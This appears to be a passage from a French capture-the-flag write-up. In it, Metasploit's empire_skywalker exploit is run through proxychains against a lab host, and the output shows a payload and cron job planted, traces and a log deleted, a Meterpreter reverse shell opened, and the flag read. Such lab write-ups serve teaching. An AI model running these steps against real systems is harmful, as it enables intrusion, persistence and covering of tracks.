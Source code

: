 ```bash
proxychains msfconsole -q
use exploit/linux/http/empire_skywalker
set RHOSTS 10.14.1.3
set RPORT 2048
exploit
```

Résultats :  
```bash
msf6 exploit(linux/http/empire_skywalker) > exploit

[*] Started reverse TCP handler on 194.233.164.121:4444
|S-chain|-<>-127.0.0.1:9050-<><>-10.14.1.2:2048-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-10.14.1.2:2048-<><>-OK
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/dwxCKALX
|S-chain|-<>-127.0.0.1:9050-<><>-10.14.1.2:2048-<><>-OK
[*] Writing cron job to /etc/cron.d/DVRDDTYW
|S-chain|-<>-127.0.0.1:9050-<><>-10.14.1.2:2048-<><>-OK
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (40132 bytes) to 20.126.99.66
[+] Deleted /etc/cron.d/DVRDDTYW
[+] Deleted /tmp/dwxCKALX
[+] Deleted /agent.log
[*] Meterpreter session 1 opened (XXX.XXX.XXX.XXX:4444 -> 20.126.99.66:57266) at 2022-06-30 14:49:02 +0000
```

On peut lire le flag !

```bash
meterpreter > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  0     fil   2022-06-30 14:45:01 +0000  .bash_history
100644/rw-r--r--  570   fil   2010-01-31 11:52:26 +0000  .bashrc
040700/rwx------  4096  dir   2022-06-30 08:43:29 +0000  .cache
100644/rw-r--r--  148   fil   2015-08-17 15:30:33 +0000  .profile
040700/rwx------  4096  dir   2022-06-30 08:43:52 +0000  .ssh
100644/rw-r--r--  209   fil   2022-06-30 08:43:54 +0000  .wget-hsts
100644/rw-r--r--  151   fil   2022-06-23 11:36:09 +0000  TODO.md
100644/rw-r--r--  100   fil   2022-06-23 11:36:08 +0000  flag6.txt

meterpreter > cat flag6.txt
Flag-6 : ISEC{UnRE5trI(Ted_Up1oAd_of_F11e}

Finish the job and bring back the name of these thugs !
```

---
